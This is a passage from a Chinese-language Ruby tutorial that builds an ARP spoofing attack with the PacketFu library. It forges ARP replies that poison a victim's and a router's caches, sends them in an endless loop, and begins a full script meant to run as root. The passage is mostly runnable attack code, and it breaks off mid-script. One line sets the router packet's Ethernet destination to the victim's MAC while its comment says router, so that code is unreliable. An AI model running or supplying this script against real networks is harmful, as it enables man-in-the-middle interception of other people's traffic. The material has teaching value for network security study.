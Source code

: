 因此，你可以像任何哈希`info[:iface]`，`info[:ip_saddr]`，`info[:eth_saddr]`等提取这些信息。

**构建受害者的ARP数据包**

```
# Build Ethernet header
arp_packet_victim = PacketFu::ARPPacket.new
arp_packet_victim.eth_saddr = "3C:77:E6:68:66:E9"       # our MAC address
arp_packet_victim.eth_daddr = "00:0C:29:38:1D:61"       # the victim's MAC address
# Build ARP Packet
arp_packet_victim.arp_saddr_mac = "3C:77:E6:68:66:E9"   # our MAC address
arp_packet_victim.arp_daddr_mac = "00:0C:29:38:1D:61"   # the victim's MAC address
arp_packet_victim.arp_saddr_ip = "192.168.0.1"          # the router's IP
arp_packet_victim.arp_daddr_ip = "192.168.0.21"         # the victim's IP
arp_packet_victim.arp_opcode = 2                        # arp code 2 == ARP reply 
```

**构建路由器数据包**

```
# Build Ethernet header
arp_packet_router = PacketFu::ARPPacket.new
arp_packet_router.eth_saddr = "3C:77:E6:68:66:E9"       # our MAC address
arp_packet_router.eth_daddr = "00:0C:29:38:1D:61"       # the router's MAC address
# Build ARP Packet
arp_packet_router.arp_saddr_mac = "3C:77:E6:68:66:E9"   # our MAC address
arp_packet_router.arp_daddr_mac = "00:50:7F:E6:96:20"   # the router's MAC address
arp_packet_router.arp_saddr_ip = "192.168.0.21"         # the victim's IP
arp_packet_router.arp_daddr_ip = "192.168.0.1"          # the router's IP
arp_packet_router.arp_opcode = 2                        # arp code 2 == ARP reply 
```

**运行ARP欺骗攻击**

```
# Send our packet through the wire
while true
    sleep 1
    puts "[+] Sending ARP packet to victim: #{arp_packet_victim.arp_daddr_ip}"
    arp_packet_victim.to_w(info[:iface])
    puts "[+] Sending ARP packet to router: #{arp_packet_router.arp_daddr_ip}"
    arp_packet_router.to_w(info[:iface])
end 
```

来源^([2](#fn_2))

将所有内容整合在一起并以`root`身份运行

```
#!/usr/bin/env ruby
#
# ARP Spoof Basic script
#
require 'packetfu'

attacker_mac = "3C:77:E6:68:66:E9"
victim_ip    = "192.168.0.21"
victim_mac   = "00:0C:29:38:1D:61"
router_ip    = "192.168.0.1"
router_mac   = "00:50:7F:E6:96:20"

info = PacketFu::Utils.whoami?(:iface => "wlan0")
#
# Victim
#
# Build Ethernet header
arp_packet_victim = PacketFu::ARPPacket.new
arp_packet_victim.eth_saddr = attacker_mac        # attacker MAC address
```